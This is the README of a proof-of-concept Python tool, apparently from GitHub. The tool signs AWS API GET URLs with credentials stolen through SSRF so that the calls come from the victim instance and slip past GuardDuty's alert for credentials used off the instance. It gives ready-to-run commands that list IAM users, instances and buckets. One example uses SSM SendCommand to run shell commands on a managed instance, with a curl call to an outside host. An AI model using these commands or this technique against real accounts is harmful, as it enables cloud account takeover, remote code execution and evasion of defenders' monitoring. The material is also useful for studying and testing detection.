 # aws_url_signer

POC tool to create signed AWS API GET requests to bypass Guard Duty alerting of off-instance credential use via SSRF

# What?

AWS has a Guard Duty alert to advise when an AWS instance credential is used outside of the instance itself. This will give you as the account owner a heads up when the instance credentials are stolen using a vulnerability like a Server Side Request Forgery (SSRF) from the Metadata URL and then subsequently used.

This alerting relies on the instance credential being taken off the host and then used to make an AWS API query from a host that is not in the associated AWS account. This is a common circumstance when instance credentials are comprimised via SSRF - attacker gets the instance creds from the metadata service on a vulnerable EC2 host, configures those credentials locally on their own local host, and then calls the AWS API to try and further compromise the AWS account.  

Even though its not obviously exposed in the various client libraries in any way other than for S3 however, it is possible to make general requests of the AWS API using HTTP GET requests. This allows you to create signed URLs to query the AWS API, send them via the same mechanism by which you compromised the credentials in the first place (e.g. SSRF), and bypass the Guard Duty alerting. This is because AWS API calls made in this way are not being made outside of the AWS account owning the credential - from the perspective of the API server they are coming from the same EC2 instance that owns that credential.

There is [another approach](https://github.com/Frichetten/SneakyEndpoints) available to also bypass these alerts, but this way requires much less infrastructure and setup, but potentially more effort in getting the results/information you are after from time of making first request.


# Usage

This tool is a proof of concept that implements the AWS v4 API signing algorithm for GET URLS. It has very minimal requirements, using `botocore` just to get the list of available services and API versions. 

It has a simple command line interface to run standalone and can also be imported as a module into other Python 3 code to allow it to be more easily used with other exploit code (e.g. SSRF, XXE, etc).

In the very simplest form, you can set your stolen credentials into the standard environment variables (`AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and `AWS_SESSION_TOKEN`) and call the tool like the following to run the `GetCallerIdentity` action for the `sts` service.

```
./aws_url_signer.py -environment -service sts -action GetCallerIdentity
```

This will spit out a signed URL, with a 180 second expiry time, that can be sent in your exploit to make the associated API call. The response will tell you about the  "caller Identity" of the credential you have.

You can do more complex stuff by sending parameters to the call as a JSON encoded string.

The following example uses SSM to generate a URL to remotely execute code against a managed Linux instance `i-xxxxxxxxxxxxxxxxx` in the account.

```
./aws_url_signer.py -environment -service ssm -action SendCommand -region ap-southeast-2 -parameters '{"InstanceIds": ["i-xxxxxxxxxxxxxxxxx"], "DocumentName": "AWS-RunShellScript", "Parameters": {"commands": ["curl http://test.site/123"]}}'
```


You can also stick the .py file in your Python path and use it in your code like so.

```
from aws_url_signer import AWSApiUrlGenerator

api = AWSApiUrlGenerator(access_key, secret_key, session_token)
request_url = api.create_service_url('s3', 'ListBuckets', region='ap-southeast-2')

```

To a large extent you do need to know the AWS API to be able to use this in a useful way, although I have provided some of the examples I have personally tested below.  You can largely start from [here](https://docs.aws.amazon.com/index.html), find the service you want, and take what would normally be sent in a POST request for a particular API call and supply it JSON encoded to the `parameters` option, and it _SHOULD_ work.


# Warning 

This is a signed https URL that can perform AWS API calls as the compromised user. Standard warnings for leaving the URL where others can see it or having it leaked in logs or other intermediate devices applies. The URLs do timeout after a default period of 180 seconds, so the URLs do have a limited lifetime.


# Alpha code

This should be considered Alpha quality code.

At the time of writing there are 313 services currently supported in the AWS API - I have only tested a small fraction of them that I personally needed to prove impact of SSRF related vulnerabilities.

While the signing process is meant to be standard across the services, there are differences in where regional endpoints sit, and the specific nature of the signed payload and signing process for some services. This could mean that some services I have not specifically tested may not work, but I think many probably will.

The process by which more complex parameter structures are converted into GET compatible versions is also weird. Its possible my code to convert parameters from a standard JSON compatible format is wrong or incomplete, and this will only become clear once someone tries to send parameters more complex than the SSM code execution example above.

Feel free to raise issues or PRs if you find any problems.


# Examples

Here are some examples of running the command line version of the tool. There are some additional commented examples for using the module in code in the source.
```
./aws_url_signer.py -environment -service iam -action ListUsers
./aws_url_signer.py -environment -service sts -action GetCallerIdentity
./aws_url_signer.py -region ap-southeast-2 -environment -service ssm -action DescribeInstanceInformation 
./aws_url_signer.py -region ap-southeast-2 -environment -service ec2 -action DescribeInstances -parameters '{"MaxResults": "5"}'
./aws_url_signer.py -region ap-southeast-2 -environment -service s3 -action ListBuckets
```
